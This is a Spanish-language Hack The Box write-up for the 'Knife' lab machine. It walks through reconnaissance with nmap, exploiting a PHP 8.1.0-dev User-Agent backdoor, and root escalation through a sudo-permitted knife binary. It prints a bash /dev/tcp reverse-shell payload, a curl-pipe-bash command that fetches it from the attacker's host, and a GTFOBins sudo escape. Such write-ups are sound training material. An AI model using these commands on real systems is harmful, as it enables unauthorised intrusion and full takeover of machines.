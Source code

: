 ```yaml
---
title: Knife
date: 2024-07-07 22:15:00 +0800
author: Justice-Reaper
categories:
  - Hackthebox
  - Linux
tags:
  - PHP 8.1.0-dev
  - Abusing Sudoers
image:
  path: /assets/img/Knife/Knife.png
---
```


## Skills

- PHP 8.1.0-dev - 'User-Agent' Remote Code Execution [RCE]
- Abusing Sudoers Privilege (Knife Binary) [Privilege Escalation]
  
## Certificaciones

- eJPT
  
## Descripción

`Knife` es una máquina `easy linux` donde estaremos vulnerando la máquina a través de un `rce` (remote code execution), el cual obtenemos al `explotar` el `php 8.1.0-dev`. Mediante el `rce` nos enviamos una `reverse shell` a nuestro equipo y posteriormente `escalamos privilegios` abusando del `sudoers`

---
## Reconocimiento

Se comprueba que la `máquina` está `activa` y se determina su `sistema operativo`, el `ttl` de las máquinas `linux` suele ser `64`, en este caso hay un nodo intermediario que hace que el ttl disminuya en una unidad

```
# ping 10.129.7.60 
PING 10.129.7.60 (10.129.7.60) 56(84) bytes of data.
64 bytes from 10.129.7.60: icmp_seq=1 ttl=63 time=155 ms
64 bytes from 10.129.7.60: icmp_seq=2 ttl=63 time=1542 ms
64 bytes from 10.129.7.60: icmp_seq=3 ttl=63 time=594 ms
^C
--- 10.129.7.60 ping statistics ---
4 packets transmitted, 3 received, 25% packet loss, time 3011ms
rtt min/avg/max/mdev = 155.024/763.527/1541.628/578.642 ms, pipe 2
```
### Nmap

Se va a realizar un escaneo de todos los `puertos` abiertos en el protocolo `TCP` a través de `nmap`

```
# sudo nmap -p- --open --min-rate 5000 -sS -n -Pn -v 10.129.7.60 -oG openPorts
[sudo] password for justice-reaper: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-07 10:06 CEST
Initiating SYN Stealth Scan at 10:06
Scanning 10.129.7.60 [65535 ports]
Discovered open port 22/tcp on 10.129.7.60
Discovered open port 80/tcp on 10.129.7.60
Completed SYN Stealth Scan at 10:07, 23.98s elapsed (65535 total ports)
Nmap scan report for 10.129.7.60
Host is up (0.092s latency).
Not shown: 45604 closed tcp ports (reset), 19929 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 24.06 seconds
           Raw packets sent: 118385 (5.209MB) | Rcvd: 110593 (4.424MB)
```

Se procede a realizar un análisis de `detección` de `servicios` y la `identificación` de `versiones` utilizando los puertos abiertos encontrados

```
# nmap -sCV -p 22,80 10.129.7.60 -Pn -oN services 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-07 10:09 CEST
Nmap scan report for 10.129.7.60
Host is up (0.36s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.05 seconds
```
### Web Enumeration

Cuando `accedemos` al servicio `web` visualizamos lo siguiente

![](/assets/img/Knife/image_1.png)

`Fuzzeamos` en busca de `rutas` y no encontramos `nada`, con wappalyzer vemos las tecnologías que se están usando en la página web

![](/assets/img/Knife/image_2.png)

Usamos `whatweb` para obtener más `información` y al parece la `versión` de `php` es `8.1.0-dev`

```
# whatweb 10.129.234.175
http://10.129.234.175 [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.129.234.175], PHP[8.1.0-dev], Script, Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]
```

Debido a que no hemos encontrado más puertos abiertos ni por TCP ni por UDP, tampoco hay virtual hosting y fuzzeando en busca de nuevas rutas no hemos encontrado. Vamos a buscar vulnerabilidades en google para la versión 8.1.0 de php, para esto hacemos la búsqueda la siguiente búsqueda > `php 8.1.0 exploit`

![](/assets/img/Knife/image_3.png)
## Web Exploitation

Al parecer es `vulnerable` al `exploit` encontrado y obtenemos `acceso` a la máquina víctima

```
# python3 exploit.py 
/home/justice-reaper/.local/lib/python3.11/site-packages/requests/__init__.py:102: RequestsDependencyWarning: urllib3 (1.26.18) or chardet (5.2.0)/charset_normalizer (2.0.12) doesn't match a supported version!
  warnings.warn("urllib3 ({}) or chardet ({})/charset_normalizer ({}) doesn't match a supported "
Enter the full host url:
http://10.129.234.175

Interactive shell is opened on http://10.129.234.175 
Can't acces tty; job crontol turned off.
$ whoami
james
```
## Intrusión

Procedemos a mandarnos una `reverse shell`, lo primero es crearnos en nuestra máquina una archivo llamado `shell` en su interior haya este `payload`

```
bash -i >& /dev/tcp/10.10.16.15/443 0>&1
```

En el `mismo directorio` donde nos hemos creado el archivo `shell`, no ponemos en `escucha` con `python` por el `puerto 80`

```
# python -m http.server 80
```

Nos ponemos en `escucha` también por el `puerto 443` para recibir la `shell`

```
# nc -nlvp 443
```

Desde la máquina víctima nos mandamos un `curl` a nuestra máquina y el output lo pipeamos con `bash`

```
$ curl http://10.10.16.15|bash
```

Una vez en la máquina víctima vamos a realizar un `tratamiento` a la `TTY`

```
# nc -nlvp 443 
listening on [any] 443 ...
connect to [10.10.16.8] from (UNKNOWN) [10.129.95.96] 53600
sh: 0: can't access tty; job control turned off
$ 
```

Obtenemos las `dimensiones` de nuestra `pantalla` 

```
# stty size
45 183
```

Efectuamos el `tratamiento` a la `TTY`

```
# script /dev/null -c bash
[ENTER]
[CTRL + Z]
# stty raw -echo; fg
[ENTER]
# reset xterm
[ENTER]
# export TERM=xterm
[ENTER]
# export SHELL=bash
[ENTER]
# stty rows 45 columns 183
[ENTER]
```

Ya tenemos un `consola` completamente `interactiva`

```
james@knife:/opt$ whoami
james
```
## Privilege Escalation

Una vez dentro de la máquina víctima vemos si podemos `ejecutar` algún `binario` con `sudo`

```
james@knife:/opt$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

Buscando en [https://gtfobins.github.io/gtfobins/knife/](https://gtfobins.github.io/gtfobins/knife/) nos damos cuenta de que mediante este binario podemos `escalar privilegios` y convertirnos en usuario `root`

```
james@knife:/opt$ sudo knife exec -E 'exec "/bin/sh"'
# whoami
root
# 
```
